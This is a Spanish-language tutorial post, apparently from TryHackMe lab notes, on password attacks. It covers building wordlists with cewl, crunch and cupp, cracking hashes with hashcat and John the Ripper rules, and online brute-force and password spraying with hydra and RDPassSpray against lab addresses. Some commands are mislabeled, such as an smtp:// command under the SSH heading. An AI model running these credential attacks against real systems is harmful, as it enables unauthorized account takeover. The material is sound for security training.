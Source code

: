```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Ataque de contrasenas


## [](#header-2)Perfilamiento de contrasenas

### [](#header-3)Contrasenas por default
Aqui hay unos sitios donde podemos encontrar contrasenas por default
- https://cirt.net/passwords
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

### [](#header-3)Contrasenas debiles

- https://wiki.skullsecurity.org/index.php?title=Passwords
- Seclist de github por Daniel

### [](#header-3)Combinacion de wordlists
```s
cat file1.txt file2.txt file3.txt > combined_list.txt
#Eliminar duplicados
sort combined_list.txt | uniq -u > cleaned_combined_list.txt
```
### [](#header-3)Wordlists Personalizada
Para saber mas sobre la comania y hacer un crawling a los subdominios:
```s
cewl -w list.txt -d 5 -m 5 http://thm.labs
```
### [](#header-3)Wordlist de usuario

```s
git clone https://github.com/therodri2/username_generator.git
#creamos una lsita de nombres de usuario
echo "John Smith" > users.lst
#Generamos la wordlist
python3 username_generator.py -w users.lst
```
## [](#header-2)Perfilamiento de contrasenas

Para crear una wordlist automatizada con una regla de caracteres, tenemos la herramienta crunch.
La cual se puede usar de la forma:
```s
crunch 2 2 01234abcd -o crunch.txt
```
Tambien esta la herramienta de python3 cupp https://github.com/Mebus/cupp y se usa para perfilar a los usuarios realizando preguntas iteractivamente.
```s
python3 cupp.py -i
```

## [](#header-2)Ataques de diccionario
Antes de empezar, es comun tener un hash y no saber que tipo de hash sea para poder crackearlo, para eso podemos usar la herramienta hashid o hash-identifier
```s
hashcat -a 0 -m 0 F806FC5A2A0D5BA2471600758452799C /usr/share/wordlists/rockyou.txt --show
```
## [](#header-2)Diccionario basados en reglas

#Para listar las reglas de john
```s
cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF

#Para usar la lista que combiarte letras en logicos simbolos
john --wordlist=single-password-list.txt --rules=KoreLogic --stdout |grep "Tryh@ckm3"
```

Podemos crear nuestra propia regla al final del archivo john.conf 
```s
sudo vi /etc/john/john.conf 
```

## [](#header-2)Ataques en linea
Con hydra podemos atacar varios vecotores

FTP
hydra -l ftp -P passlist.txt ftp://10.10.x.x

SSH
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 

SMTP
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 

HTTP login pages
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 

RDP
Tenemos la herramienta de python3 https://github.com/xFreed0m/RDPassSpray

python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026

Outlook web access (OWA) portal
- https://github.com/byt3bl33d3r/SprayingToolkit
- https://github.com/dafthack/MailSniper

